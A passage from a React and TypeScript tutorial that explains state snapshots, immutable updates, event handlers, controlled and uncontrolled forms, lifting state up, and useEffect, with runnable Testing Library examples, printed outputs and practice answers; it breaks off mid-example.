> **In simple words:** **state** is a component's memory: data that changes over time because of what the user does (typed text, a selected tab, items in a cart). `const [count, setCount] = useState(0)` gives you the current value and a function to change it. Calling `setCount(5)` doesn't change `count` immediately; it asks React to **render the component again**, and in that next render `count` is `5`. Each render sees a fixed **snapshot** of the state.

**Hooks** are functions whose names start with `use` (`useState`, `useEffect`, ...). They let components keep state and use React features. Two **rules of hooks**: call them only at the **top level** of a component or custom hook (never inside `if`, loops or nested functions), and only from React functions. React identifies each hook by its **call order**, so the order must be the same every render.

**Four things that surprise everyone:**

1. **State is a snapshot.** Inside one render, `count` never changes. `setCount(count + 1)` three times in the same click adds **1**, not 3, because all three read the same snapshot.
2. **Use an updater function** when the new state depends on the old one: `setCount(c => c + 1)`. React queues the functions and runs them in order, so three calls add 3.
3. **Updates are batched.** Several `set` calls in one event cause **one** re-render.
4. **Never mutate state.** `items.push(x)` changes the existing array, and React (which compares by reference: "is it the same object?") may not notice. Create **new** arrays and objects: `setItems([...items, x])`, `setUser({ ...user, name })`.

**Immutable update cheat sheet:**

| Change | Write |
|---|---|
| Add to array | `[...items, newItem]` or `[newItem, ...items]` |
| Remove | `items.filter(i => i.id !== id)` |
| Replace one item | `items.map(i => (i.id === id ? { ...i, qty: i.qty + 1 } : i))` |
| Sort / reverse | `items.toSorted(...)`, `items.toReversed()` (new arrays) |
| Update object field | `{ ...user, name: "Ravi" }` |
| Nested field | `{ ...user, address: { ...user.address, city: "Pune" } }` (or use Immer for deep updates) |

**What belongs in state:** only data that changes and affects the screen. If a value can be **computed** from props or other state (a total, a filtered list, a full name), compute it during render instead of storing it: duplicated state gets out of sync.

### React

**State as a snapshot, and the updater function:**

```tsx
import { useState } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

function Counter() {
  const [count, setCount] = useState(0);

  function addThreeWrong() {
    setCount(count + 1);
    setCount(count + 1);
    setCount(count + 1);            // all read the same snapshot: count is still 0 here
  }
  function addThreeRight() {
    setCount(c => c + 1);
    setCount(c => c + 1);
    setCount(c => c + 1);           // each runs on the result of the previous one
  }
  function showSnapshot() {
    setCount(count + 10);
    console.log("inside the handler, count is still", count);
  }

  return (
    <div>
      <p>Count: {count}</p>
      <button onClick={addThreeWrong}>+3 (wrong)</button>
      <button onClick={addThreeRight}>+3 (right)</button>
      <button onClick={showSnapshot}>+10</button>
    </div>
  );
}

render(<Counter />);
const countText = () => screen.getByText(/Count:/).textContent;
fireEvent.click(screen.getByText("+3 (wrong)"));
console.log(countText());
fireEvent.click(screen.getByText("+3 (right)"));
console.log(countText());
fireEvent.click(screen.getByText("+10"));
console.log(countText());
```

**Output:**

```text
Count: 1
Count: 4
inside the handler, count is still 4
Count: 14
```

**Batching: several updates, one render.** We count how many times the component function runs:

```tsx
let renders = 0;
function Profile() {
  renders++;
  const [name, setName] = useState("Asha");
  const [city, setCity] = useState("Pune");
  return (
    <button onClick={() => { setName("Ravi"); setCity("Delhi"); }}>
      {name} from {city}
    </button>
  );
}
render(<Profile />);
fireEvent.click(screen.getByRole("button"));
console.log(screen.getByRole("button").textContent, "| renders:", renders);
```

**Output:**

```text
Ravi from Delhi | renders: 2
```

One initial render plus **one** re-render for two state updates.

**Arrays and objects: create new ones, don't mutate.** The "mutate" button changes the array in place and calls the setter with the **same** array, so React sees no change and nothing updates:

```tsx
type Item = { id: number; name: string; qty: number };

function Cart() {
  const [items, setItems] = useState<Item[]>([{ id: 1, name: "Chai", qty: 1 }]);

  const mutate = () => { items.push({ id: 99, name: "Ghost", qty: 1 }); setItems(items); };
  const add = () => setItems([...items, { id: Date.now(), name: "Mug", qty: 1 }]);
  const increment = (id: number) => setItems(items.map(i => (i.id === id ? { ...i, qty: i.qty + 1 } : i)));
  const remove = (id: number) => setItems(items.filter(i => i.id !== id));
  const total = items.reduce((n, i) => n + i.qty, 0);            // derived, not stored

  return (
    <div>
      <p>{items.map(i => `${i.name}×${i.qty}`).join(", ") || "empty"} (total {total})</p>
      <button onClick={mutate}>mutate</button>
      <button onClick={add}>add mug</button>
      <button onClick={() => increment(1)}>more chai</button>
      <button onClick={() => remove(1)}>remove chai</button>
    </div>
  );
}

render(<Cart />);
const cartText = () => screen.getByText(/total/).textContent;
fireEvent.click(screen.getByText("mutate"));
console.log("after mutate:     ", cartText());
fireEvent.click(screen.getByText("more chai"));
console.log("after more chai:  ", cartText());
fireEvent.click(screen.getByText("add mug"));
console.log("after add mug:    ", cartText());
fireEvent.click(screen.getByText("remove chai"));
console.log("after remove chai:", cartText());
```

**Output:**

```text
after mutate:      Chai×1 (total 1)
after more chai:   Chai×2, Ghost×1 (total 3)
after add mug:     Chai×2, Ghost×1, Mug×1 (total 4)
after remove chai: Ghost×1, Mug×1 (total 2)
```

Look closely: after "mutate" nothing changed on screen, but the pushed "Ghost" item was silently sitting in the array and appears on the next real update. Mutation causes bugs that show up **later**, somewhere else.

**Common mistakes:**

- Reading state right after setting it and expecting the new value (it's a snapshot).
- `setCount(count + 1)` in loops, intervals or async code. Use `setCount(c => c + 1)`.
- Mutating arrays/objects (`push`, `sort`, `obj.x = ...`, `splice`) and passing the same reference to the setter.
- Storing derived values (totals, filtered lists, `fullName`) in state.
- Calling hooks conditionally (`if (x) { useState() }`).

### Practice

1. Build a `QtyPicker` with − and + buttons (min 1, max 10) and a text showing the quantity and price (`₹180 each`). Click + three times and − once, then print the text.

<details>
<summary><b>Answer</b></summary>

```tsx
function QtyPicker({ pricePaise }: { pricePaise: number }) {
  const [qty, setQty] = useState(1);
  return (
    <div>
      <button onClick={() => setQty(q => Math.max(1, q - 1))}>−</button>
      <span>{qty} × ₹{pricePaise / 100} = ₹{(qty * pricePaise) / 100}</span>
      <button onClick={() => setQty(q => Math.min(10, q + 1))}>+</button>
    </div>
  );
}

render(<QtyPicker pricePaise={18000} />);
for (const label of ["+", "+", "+", "−"]) fireEvent.click(screen.getByText(label));
console.log(screen.getByText(/=/).textContent);
```

**Output:**

```text
3 × ₹180 = ₹540
```

</details>

**Learn more:** [react.dev: State, a component's memory](https://react.dev/learn/state-a-components-memory) · [react.dev: State as a snapshot](https://react.dev/learn/state-as-a-snapshot) · [react.dev: Updating arrays in state](https://react.dev/learn/updating-arrays-in-state)

---

## 6. Handling Events

### Theory

> **In simple words:** to respond to the user, pass a **function** to an event prop like `onClick`, `onChange` or `onSubmit`. React calls your function when the event happens and gives it an **event object** with details (which key, which element, the input's value). Inside the handler you usually update state, which re-renders the UI.

| Need | How |
|---|---|
| Handle a click | `<button onClick={handleClick}>` (pass the function, don't call it) |
| Pass an argument | `onClick={() => remove(item.id)}` |
| Read an input's value | `onChange={e => setText(e.target.value)}` |
| Stop a form from reloading the page | `e.preventDefault()` in `onSubmit` |
| Stop the event reaching parents | `e.stopPropagation()` |
| Keyboard | `onKeyDown={e => { if (e.key === "Enter") ... }}` |
| Types (TypeScript) | Inline handlers are inferred; standalone: `(e: React.ChangeEvent<HTMLInputElement>) => void` |

**Naming convention:** handler functions inside a component are called `handleSomething` (`handleSubmit`); props that receive handlers are called `onSomething` (`onSubmit`, `onAdd`). This makes it obvious which side of the "event flows up" relationship you're on.

**Events bubble** in React like in the DOM: a click on a button inside a card also triggers the card's `onClick`, unless you stop propagation. React attaches listeners at the root for you (event delegation), so thousands of handlers cost almost nothing.

**Accessibility:** use real `<button>` elements for actions (they're focusable and work with Enter/Space) and `<a href>` for navigation. A `<div onClick>` looks the same but keyboard and screen-reader users can't use it.

### React

```tsx
import { useState } from "react";
import type { ChangeEvent, KeyboardEvent } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

function TagInput() {
  const [text, setText] = useState("");
  const [tags, setTags] = useState<string[]>(["tea"]);
  const [log, setLog] = useState<string[]>([]);

  function handleChange(e: ChangeEvent<HTMLInputElement>) {
    setText(e.target.value);
  }
  function handleKeyDown(e: KeyboardEvent<HTMLInputElement>) {
    if (e.key === "Enter" && text.trim()) {
      setTags([...tags, text.trim().toLowerCase()]);
      setText("");
    }
  }
  function remove(tag: string) {
    setTags(tags.filter(t => t !== tag));
  }

  return (
    <div onClick={() => setLog(l => [...l, "card clicked"])}>
      <input aria-label="tag" value={text} onChange={handleChange} onKeyDown={handleKeyDown} />
      {tags.map(tag => (
        <button key={tag} onClick={e => { e.stopPropagation(); remove(tag); }}>
          {tag} ✕
        </button>
      ))}
      <p>log: {log.join(", ") || "none"}</p>
    </div>
  );
}

render(<TagInput />);
const input = screen.getByLabelText("tag");
fireEvent.change(input, { target: { value: "  Green " } });
fireEvent.keyDown(input, { key: "Enter" });
fireEvent.change(input, { target: { value: "Organic" } });
fireEvent.keyDown(input, { key: "Enter" });
console.log([...document.querySelectorAll("button")].map(b => b.textContent));
fireEvent.click(screen.getByText("tea ✕"));                  // stopPropagation: card doesn't hear it
fireEvent.click(screen.getByText(/log:/));                    // clicking the card itself
console.log([...document.querySelectorAll("button")].map(b => b.textContent), screen.getByText(/log:/).textContent);
```

**Output:**

```text
[ 'tea ✕', 'green ✕', 'organic ✕' ]
[ 'green ✕', 'organic ✕' ] log: card clicked
```

**Passing a function vs calling it.** The second button calls `alertUser()` **while rendering**, so the "alert" happens immediately (and would again on every render), not on click:

```tsx
let calls = 0;
function alertUser() { calls++; }

function Buttons() {
  return (
    <>
      <button onClick={alertUser}>right</button>
      <button onClick={alertUser()}>wrong</button>
    </>
  );
}
```

**Compiler output:**

```text
example.tsx(8,15): error TS2322: Type 'void' is not assignable to type 'MouseEventHandler<HTMLButtonElement> | undefined'.
```

Here TypeScript catches it because `alertUser()` returns `void`, not a function. In plain JavaScript it would silently run during render.

**Forms: `onSubmit` + `preventDefault`.** Handle Enter and the submit button in one place:

```tsx
function Subscribe() {
  const [email, setEmail] = useState("");
  const [message, setMessage] = useState("");

  return (
    <form
      onSubmit={e => {
        e.preventDefault();                              // stop the full-page reload
        setMessage(email.includes("@") ? `Subscribed ${email}` : "Please enter a valid email");
      }}
    >
      <input aria-label="email" value={email} onChange={e => setEmail(e.target.value)} />
      <button type="submit">Subscribe</button>
      <p role="status">{message}</p>
    </form>
  );
}

render(<Subscribe />);
fireEvent.click(screen.getByText("Subscribe"));
console.log(screen.getByRole("status").textContent);
fireEvent.change(screen.getByLabelText("email"), { target: { value: "asha@example.com" } });
fireEvent.submit(screen.getByRole("button").closest("form")!);
console.log(screen.getByRole("status").textContent);
```

**Output:**

```text
Please enter a valid email
Subscribed asha@example.com
```

**Common mistakes:**

- `onClick={handle()}` instead of `onClick={handle}` or `onClick={() => handle(id)}`.
- Forgetting `e.preventDefault()` in form submit handlers (the page reloads and state is lost).
- Clickable `<div>`s instead of `<button>`s.
- Reading `e.target.value` inside an async callback much later; read it right away and store it.

### Practice

1. Build a `Stars` rating input: 5 buttons (`☆`/`★`), clicking the 4th sets rating 4; hovering is not needed. Also show "You rated 4/5". Click star 4, then star 2.

<details>
<summary><b>Answer</b></summary>

```tsx
function Stars() {
  const [rating, setRating] = useState(0);
  return (
    <div>
      {[1, 2, 3, 4, 5].map(n => (
        <button key={n} aria-label={`${n} stars`} onClick={() => setRating(n)}>{n <= rating ? "★" : "☆"}</button>
      ))}
      <p>{rating ? `You rated ${rating}/5` : "Not rated"}</p>
    </div>
  );
}

render(<Stars />);
fireEvent.click(screen.getByLabelText("4 stars"));
console.log(document.body.textContent);
fireEvent.click(screen.getByLabelText("2 stars"));
console.log(document.body.textContent);
```

**Output:**

```text
★★★★☆You rated 4/5
★★☆☆☆You rated 2/5
```

</details>

**Learn more:** [react.dev: Responding to events](https://react.dev/learn/responding-to-events) · [MDN: Event bubbling](https://developer.mozilla.org/en-US/docs/Learn_web_development/Core/Scripting/Event_bubbling)

---

## 7. Forms: Controlled and Uncontrolled Inputs

### Theory

> **In simple words:** there are two ways to handle form inputs in React. In a **controlled** input, React state holds the value (`value={name}` + `onChange`): the state is the "single source of truth", so you can validate, format or react to every keystroke. In an **uncontrolled** input, the browser keeps the value and you **read it when needed** (on submit, with `FormData` or a ref). Both are fine; pick per form.

| | Controlled | Uncontrolled |
|---|---|---|
| Value lives in | React state | The DOM input |
| Setup | `value` + `onChange` | `defaultValue` (optional) + `name` |
| Read the value | Any time, from state | On submit: `new FormData(form)` |
| Good for | Live validation, formatting, dependent fields, instant search | Simple forms, file inputs, React 19 form actions, big forms (with React Hook Form) |
| Re-renders | Every keystroke | None while typing |

**Different input types:**

| Input | Controlled props |
|---|---|
| text, email, number, textarea | `value` + `onChange={e => set(e.target.value)}` (numbers arrive as **strings**) |
| checkbox | `checked` + `onChange={e => set(e.target.checked)}` |
| radio | `checked={choice === "upi"}` + `onChange={() => setChoice("upi")}` |
| select | `value` + `onChange` on the `<select>` |
| file | Always uncontrolled: read `e.target.files` |

**One state object for many fields** works well with a single change handler that uses the input's `name`. For larger forms with validation, teams use **React Hook Form** + a Zod schema (covered later), and React 19 adds **form actions** (also later).

**A controlled input must always have a defined value:** switching `value` from `undefined` to a string makes React warn that an input changed from uncontrolled to controlled. Start with `""`, not `undefined`.

### React

**A controlled form** with one handler for all fields, live validation and a derived "can submit" flag:

```tsx
import { useState } from "react";
import type { ChangeEvent, FormEvent } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

type Signup = { name: string; email: string; plan: "free" | "pro"; agree: boolean };

function SignupForm({ onDone }: { onDone: (data: Signup) => void }) {
  const [form, setForm] = useState<Signup>({ name: "", email: "", plan: "free", agree: false });

  function handleChange(e: ChangeEvent<HTMLInputElement | HTMLSelectElement>) {
    const { name, value } = e.target;
    const next = e.target instanceof HTMLInputElement && e.target.type === "checkbox" ? e.target.checked : value;
    setForm(f => ({ ...f, [name]: next }));
  }

  const errors = {
    name: form.name.trim().length < 2 ? "Name is too short" : "",
    email: /^\S+@\S+\.\S+$/.test(form.email) ? "" : "Invalid email",
  };
  const canSubmit = !errors.name && !errors.email && form.agree;      // derived, not stored

  function handleSubmit(e: FormEvent<HTMLFormElement>) {
    e.preventDefault();
    if (canSubmit) onDone(form);
  }

  return (
    <form onSubmit={handleSubmit}>
      <input name="name" aria-label="Name" value={form.name} onChange={handleChange} />
      {form.name && errors.name && <small>{errors.name}</small>}
      <input name="email" aria-label="Email" value={form.email} onChange={handleChange} />
      {form.email && errors.email && <small>{errors.email}</small>}
      <select name="plan" aria-label="Plan" value={form.plan} onChange={handleChange}>
        <option value="free">Free</option>
        <option value="pro">Pro</option>
      </select>
      <label><input type="checkbox" name="agree" checked={form.agree} onChange={handleChange} /> I agree</label>
      <button disabled={!canSubmit}>Create account</button>
    </form>
  );
}

render(<SignupForm onDone={data => console.log("submitted:", data)} />);
const typeInto = (label: string, value: string) => fireEvent.change(screen.getByLabelText(label), { target: { value } });
typeInto("Name", "A");
typeInto("Email", "asha@");
console.log([...document.querySelectorAll("small")].map(s => s.textContent), "button disabled:", screen.getByRole("button").hasAttribute("disabled"));
typeInto("Name", "Asha");
typeInto("Email", "asha@example.com");
typeInto("Plan", "pro");
fireEvent.click(screen.getByLabelText("I agree"));
console.log("button disabled:", screen.getByRole("button").hasAttribute("disabled"));
fireEvent.click(screen.getByRole("button"));
```

**Output:**

```text
[ 'Name is too short', 'Invalid email' ] button disabled: true
button disabled: false
submitted: { name: 'Asha', email: 'asha@example.com', plan: 'pro', agree: true }
```

**An uncontrolled form**: no state while typing; read everything once on submit with `FormData`:

```tsx
function Feedback() {
  const [result, setResult] = useState("");
  return (
    <form
      onSubmit={e => {
        e.preventDefault();
        const data = new FormData(e.currentTarget);
        const rating = Number(data.get("rating"));
        const comment = String(data.get("comment") ?? "").trim();
        setResult(`rating=${rating}, comment="${comment}", topics=${data.getAll("topic").join("+")}`);
        e.currentTarget.reset();
      }}
    >
      <select name="rating" aria-label="Rating" defaultValue="5">
        {[1, 2, 3, 4, 5].map(n => <option key={n}>{n}</option>)}
      </select>
      <textarea name="comment" aria-label="Comment" defaultValue="" />
      <label><input type="checkbox" name="topic" value="delivery" /> Delivery</label>
      <label><input type="checkbox" name="topic" value="taste" /> Taste</label>
      <button>Send</button>
      <output>{result}</output>
    </form>
  );
}

render(<Feedback />);
fireEvent.change(screen.getByLabelText("Rating"), { target: { value: "4" } });
fireEvent.change(screen.getByLabelText("Comment"), { target: { value: "  Loved the chai! " } });
fireEvent.click(screen.getByLabelText("Delivery"));
fireEvent.click(screen.getByLabelText("Taste"));
fireEvent.click(screen.getByText("Send"));
console.log(document.querySelector("output")!.textContent);
console.log("after reset:", (screen.getByLabelText("Comment") as HTMLTextAreaElement).value === "");
```

**Output:**

```text
rating=4, comment="Loved the chai!", topics=delivery+taste
after reset: true
```

**Common mistakes:**

- `value` without `onChange`: the input becomes read-only (React warns). Use `defaultValue` for uncontrolled inputs.
- Starting a controlled value as `undefined` or `null`.
- Forgetting that `e.target.value` is always a **string** (convert numbers with `Number()` and check for `NaN`).
- Storing "isValid" in state instead of computing it from the values.
- Validating only on the client. The server must validate too.

### Practice

1. Build a controlled `TipCalculator`: bill amount input, tip radio buttons (10/15/20%), and a line showing tip and total. Enter 840, choose 15%, print the line.

<details>
<summary><b>Answer</b></summary>

```tsx
function TipCalculator() {
  const [bill, setBill] = useState("");
  const [tip, setTip] = useState(10);
  const amount = Number(bill) || 0;
  const tipAmount = Math.round(amount * tip) / 100;
  return (
    <div>
      <input aria-label="Bill" inputMode="decimal" value={bill} onChange={e => setBill(e.target.value)} />
      {[10, 15, 20].map(p => (
        <label key={p}><input type="radio" name="tip" checked={tip === p} onChange={() => setTip(p)} /> {p}%</label>
      ))}
      <p>Tip ₹{tipAmount.toFixed(2)} · Total ₹{(amount + tipAmount).toFixed(2)}</p>
    </div>
  );
}

render(<TipCalculator />);
fireEvent.change(screen.getByLabelText("Bill"), { target: { value: "840" } });
fireEvent.click(screen.getByLabelText("15%"));
console.log(screen.getByText(/Tip/).textContent);
```

**Output:**

```text
Tip ₹126.00 · Total ₹966.00
```

</details>

---

### ✅ Part 1 checkpoint

Without looking, can you:

- [ ] Explain components, props and state, and create a React + TypeScript project with Vite?
- [ ] Write JSX with expressions, `className`, style objects and fragments, and say what renders (and why `0` does)?
- [ ] Pass props (including `children` and callbacks) and keep components pure?
- [ ] Render lists with stable keys and explain what goes wrong with index keys?
- [ ] Use `useState` correctly: snapshots, updater functions, batching and immutable updates?
- [ ] Handle clicks, keyboard events and form submits, and build controlled and uncontrolled forms?

**Learn more:** [react.dev: Reacting to input with state](https://react.dev/learn/reacting-to-input-with-state) · [react.dev: `<input>` reference](https://react.dev/reference/react-dom/components/input) · [MDN: FormData](https://developer.mozilla.org/en-US/docs/Web/API/FormData)

---

# Part 2 — Easy: Thinking in React

> **Goal:** Decide where state lives, synchronise with effects (and avoid unnecessary ones), use refs, fetch data safely, style components and compose them.  
> **You need:** Part 1.

---

## 8. Thinking in React: Where State Lives, Lifting State Up and Derived Data

### Theory

> **In simple words:** the hardest part of React isn't syntax; it's deciding **which component owns which piece of state**. The rule: put state in the **closest common parent** of all the components that need it, pass it **down** as props, and pass **callbacks** down so children can ask for changes. Moving state from a child to a parent so siblings can share it is called **lifting state up**. And keep state **minimal**: if something can be computed from other data, compute it instead of storing it.

**The "Thinking in React" process** (from the official docs), for any new screen:

1. **Break the UI into a component tree** (draw boxes around parts of a mockup).
2. **Build a static version** with props only (no state yet).
3. **Find the minimal state**: ask of each piece of data, "Does it change over time? Is it passed in by a parent? Can I compute it from other state or props?" Only data that changes and can't be computed is state.
4. **Decide where each state lives**: the closest common parent of everything that reads it.
5. **Add inverse data flow**: pass setter callbacks down so children can update the parent's state.

**Kinds of state and where they go (2026):**

| Kind | Examples | Where it lives |
|---|---|---|
| **UI state** | Open/closed, selected tab, input text | `useState` in the component (or nearest common parent) |
| **Shared app state** | Current user, theme, cart | Context or a small store (Zustand) (later sections) |
| **Server state** | Products, orders from an API | A data-fetching library cache (TanStack Query) or the framework (later sections) |
| **URL state** | Search query, filters, page number, selected ID | The URL (`?q=tea&page=2`) so it survives reloads and can be shared |
| **Form state** | Field values, errors | Controlled state, the form itself, or React Hook Form |

**Derived data:** never keep two copies of the same information. `filteredProducts`, `total`, `isValid`, `fullName` are computed on every render from the real state. It's cheap, and it can't get out of sync.

### React

A searchable product list. `SearchBar` and `ProductTable` are siblings; both need the search text, so it lives in their parent, `FilterableProducts`. The filtered list and counts are **derived**:

```tsx
import { useState } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

type Product = { sku: string; name: string; category: "tea" | "ware"; pricePaise: number; inStock: boolean };

const PRODUCTS: Product[] = [
  { sku: "TEA-250", name: "Masala chai", category: "tea", pricePaise: 18000, inStock: true },
  { sku: "TEA-500", name: "Ginger tea", category: "tea", pricePaise: 21000, inStock: false },
  { sku: "MUG-01", name: "Steel mug", category: "ware", pricePaise: 34900, inStock: true },
  { sku: "KET-02", name: "Tea kettle", category: "ware", pricePaise: 149900, inStock: true },
];

function SearchBar(props: { query: string; onQueryChange: (q: string) => void; inStockOnly: boolean; onInStockOnlyChange: (v: boolean) => void }) {
  return (
    <form role="search" onSubmit={e => e.preventDefault()}>
      <input aria-label="Search" value={props.query} onChange={e => props.onQueryChange(e.target.value)} />
      <label>
        <input type="checkbox" checked={props.inStockOnly} onChange={e => props.onInStockOnlyChange(e.target.checked)} /> In stock only
      </label>
    </form>
  );
}

function ProductTable({ products }: { products: Product[] }) {
  if (products.length === 0) return <p>No matches.</p>;
  return (
    <table>
      <tbody>
        {products.map(p => (
          <tr key={p.sku}><td>{p.name}</td><td>₹{p.pricePaise / 100}</td></tr>
        ))}
      </tbody>
    </table>
  );
}

function FilterableProducts({ products }: { products: Product[] }) {
  const [query, setQuery] = useState("");              // state: changes, can't be computed
  const [inStockOnly, setInStockOnly] = useState(false);

  const visible = products.filter(p =>                 // derived: computed every render
    p.name.toLowerCase().includes(query.trim().toLowerCase()) && (!inStockOnly || p.inStock));

  return (
    <div>
      <SearchBar query={query} onQueryChange={setQuery} inStockOnly={inStockOnly} onInStockOnlyChange={setInStockOnly} />
      <p>{visible.length} of {products.length} products</p>
      <ProductTable products={visible} />
    </div>
  );
}

render(<FilterableProducts products={PRODUCTS} />);
const rows = () => [...document.querySelectorAll("tr")].map(r => r.textContent).join(" | ") || screen.getByText("No matches.").textContent;
fireEvent.change(screen.getByLabelText("Search"), { target: { value: "tea" } });
console.log(screen.getByText(/of 4/).textContent, "→", rows());
fireEvent.click(screen.getByLabelText("In stock only"));
console.log(screen.getByText(/of 4/).textContent, "→", rows());
fireEvent.change(screen.getByLabelText("Search"), { target: { value: "coffee" } });
console.log(screen.getByText(/of 4/).textContent, "→", rows());
```

**Output:**

```text
2 of 4 products → Ginger tea₹210 | Tea kettle₹1499
1 of 4 products → Tea kettle₹1499
0 of 4 products → No matches.
```

**Lifting state up: an accordion where only one panel is open.** If each panel kept its own `isOpen`, several could be open at once. Lifting the "which one is open" state into the parent makes the rule easy:

```tsx
function Panel({ title, isOpen, onOpen, children }: { title: string; isOpen: boolean; onOpen: () => void; children: string }) {
  return (
    <section>
      <button aria-expanded={isOpen} onClick={onOpen}>{title}</button>
      {isOpen && <p>{children}</p>}
    </section>
  );
}

function Faq() {
  const [openIndex, setOpenIndex] = useState(0);        // one number instead of N booleans
  const faqs = [
    ["Delivery time?", "20–40 minutes in Pune."],
    ["Refunds?", "Full refund within 7 days."],
    ["Bulk orders?", "Email bulk@chaipoint.example."],
  ] as const;
  return (
    <div>
      {faqs.map(([q, a], i) => (
        <Panel key={q} title={q} isOpen={openIndex === i} onOpen={() => setOpenIndex(i)}>{a}</Panel>
      ))}
    </div>
  );
}

render(<Faq />);
const openAnswers = () => [...document.querySelectorAll("p")].map(p => p.textContent);
console.log(openAnswers());
fireEvent.click(screen.getByText("Refunds?"));
console.log(openAnswers());
```

**Output:**

```text
[ '20–40 minutes in Pune.' ]
[ 'Full refund within 7 days.' ]
```

**Common mistakes:**

- Copying props into state (`const [name, setName] = useState(props.name)`): the copy ignores later prop changes. Use the prop directly, or name it `initialName` if it really is just a starting value.
- Keeping the same data in two places (e.g. `items` and `itemCount`) and forgetting to update one.
- Putting all state at the top of the app "just in case": every change re-renders everything, and components become hard to reuse. Keep state as low as possible, as high as necessary.
- Storing server data in `useState` + `useEffect` everywhere instead of a data-fetching library (later).

### Practice

1. Build a `TemperatureConverter` with two inputs (°C and °F) that stay in sync: typing in either updates the other. Store only **one** piece of state (the last edited value and its scale). Type 100 in °C, then 32 in °F.

<details>
<summary><b>Answer</b></summary>

```tsx
function TemperatureConverter() {
  const [temp, setTemp] = useState<{ value: string; scale: "c" | "f" }>({ value: "", scale: "c" });
  const n = Number.parseFloat(temp.value);
  const round = (x: number) => String(Math.round(x * 10) / 10);
  const celsius = temp.scale === "c" ? temp.value : Number.isNaN(n) ? "" : round(((n - 32) * 5) / 9);
  const fahrenheit = temp.scale === "f" ? temp.value : Number.isNaN(n) ? "" : round((n * 9) / 5 + 32);
  return (
    <div>
      <input aria-label="Celsius" value={celsius} onChange={e => setTemp({ value: e.target.value, scale: "c" })} />
      <input aria-label="Fahrenheit" value={fahrenheit} onChange={e => setTemp({ value: e.target.value, scale: "f" })} />
    </div>
  );
}

render(<TemperatureConverter />);
const val = (label: string) => (screen.getByLabelText(label) as HTMLInputElement).value;
fireEvent.change(screen.getByLabelText("Celsius"), { target: { value: "100" } });
console.log(val("Celsius"), "°C =", val("Fahrenheit"), "°F");
fireEvent.change(screen.getByLabelText("Fahrenheit"), { target: { value: "32" } });
console.log(val("Celsius"), "°C =", val("Fahrenheit"), "°F");
```

**Output:**

```text
100 °C = 212 °F
0 °C = 32 °F
```

</details>

**Learn more:** [react.dev: Thinking in React](https://react.dev/learn/thinking-in-react) · [react.dev: Sharing state between components](https://react.dev/learn/sharing-state-between-components) · [react.dev: Choosing the state structure](https://react.dev/learn/choosing-the-state-structure)

---

## 9. Effects with useEffect (and When You Don't Need One)



### Theory

> **In simple words:** rendering must be pure: just compute JSX. But sometimes a component must **synchronise with something outside React**: a timer, a WebSocket, a browser API, a third-party widget, the page title. **`useEffect`** runs code **after** React has updated the screen, and lets you **clean up** (stop the timer, close the connection) before the next run and when the component disappears.

```text
useEffect(() => {
  // setup: start syncing (runs after render)
  return () => {
    // cleanup: stop syncing (runs before the next setup and on unmount)
  };
}, [dependencies]);
```

**The dependency array decides when it re-runs:**

| Dependencies | Runs after |
|---|---|
| `[a, b]` | The first render, and any render where `a` or `b` changed (compared with `Object.is`) |
| `[]` | Only the first render (and cleanup on unmount) |
| (none) | Every render (rarely what you want) |

List **every** reactive value (props, state, values computed from them) that the effect uses. The ESLint rule `react-hooks/exhaustive-deps` checks this; don't silence it. If an effect re-runs too often, fix the cause (move objects/functions inside the effect, use updater functions) rather than lying about dependencies.

**Strict Mode runs effects twice in development** (setup → cleanup → setup) to prove your cleanup works. If something breaks with that, your effect is missing cleanup; in production it runs once.

**You might not need an effect** (the most common React mistake is using effects for things that aren't synchronisation):

| Instead of an effect that... | Do this |
|---|---|
| Computes a value from props/state and `setState`s it | Compute it during render (`const total = ...`) |
| Resets state when a prop changes | Give the component a `key` that changes |
| Responds to a user action (submit, click) | Put the logic in the **event handler** |
| Fetches data | Use a data library or your framework (Part 4); if you must, clean up (ignore stale results / abort) |
| Notifies the parent about a change | Call the parent's callback in the same event handler |

### React

**The lifecycle in logs**: setup after mount, cleanup + setup when a dependency changes, cleanup on unmount:

```tsx
import { useEffect, useState } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

function ChatRoom({ roomId }: { roomId: string }) {
  useEffect(() => {
    console.log(`✅ connect to ${roomId}`);
    return () => console.log(`❌ disconnect from ${roomId}`);
  }, [roomId]);
  return <h2>Room: {roomId}</h2>;
}

function App() {
  const [roomId, setRoomId] = useState("general");
  const [show, setShow] = useState(true);
  const [likes, setLikes] = useState(0);
  return (
    <div>
      <button onClick={() => setRoomId("orders")}>switch room</button>
      <button onClick={() => setLikes(likes + 1)}>like ({likes})</button>
      <button onClick={() => setShow(false)}>close</button>
      {show && <ChatRoom roomId={roomId} />}
    </div>
  );
}

render(<App />);
console.log("-- like (roomId unchanged, effect doesn't re-run)");
fireEvent.click(screen.getByText(/like/));
console.log("-- switch room");
fireEvent.click(screen.getByText("switch room"));
console.log("-- close");
fireEvent.click(screen.getByText("close"));
```

**Output:**

```text
✅ connect to general
-- like (roomId unchanged, effect doesn't re-run)
-- switch room
❌ disconnect from general
✅ connect to orders
-- close
❌ disconnect from orders
```

**Timers and browser events need cleanup.** A clock that ticks with `setInterval` and updates with an updater function (so it doesn't need `seconds` as a dependency), plus a window listener:

```tsx
function Stopwatch() {
  const [seconds, setSeconds] = useState(0);
  const [width, setWidth] = useState(window.innerWidth);

  useEffect(() => {
    const id = setInterval(() => setSeconds(s => s + 1), 20);   // 20 ms "seconds" to keep the demo fast
    return () => clearInterval(id);
  }, []);

  useEffect(() => {
    const onResize = () => setWidth(window.innerWidth);
    window.addEventListener("resize", onResize);
    return () => window.removeEventListener("resize", onResize);
  }, []);

  return <p>{seconds >= 3 ? "3+ ticks" : `${seconds} ticks`} · width {width}</p>;
}

import { act } from "react";

const { unmount } = render(<Stopwatch />);
await act(() => new Promise(r => setTimeout(r, 120)));          // let time pass (act: flush React updates)
Object.defineProperty(window, "innerWidth", { value: 480, configurable: true });
fireEvent(window, new Event("resize"));
console.log(document.querySelector("p")!.textContent);
unmount();                                                      // cleanup stops the interval
```

**Output:**

```text
3+ ticks · width 480
```

(In tests, anything that makes React update outside a Testing Library helper, like timers firing, is wrapped in `act(...)` so React finishes rendering before you check the result.)

**Synchronising with a non-React API**: the page title and `localStorage`:

```tsx
function Cart() {
  const [items, setItems] = useState<string[]>(() => JSON.parse(localStorage.getItem("cart") ?? "[]"));

  useEffect(() => {
    document.title = items.length ? `(${items.length}) Chai Point` : "Chai Point";
  }, [items.length]);

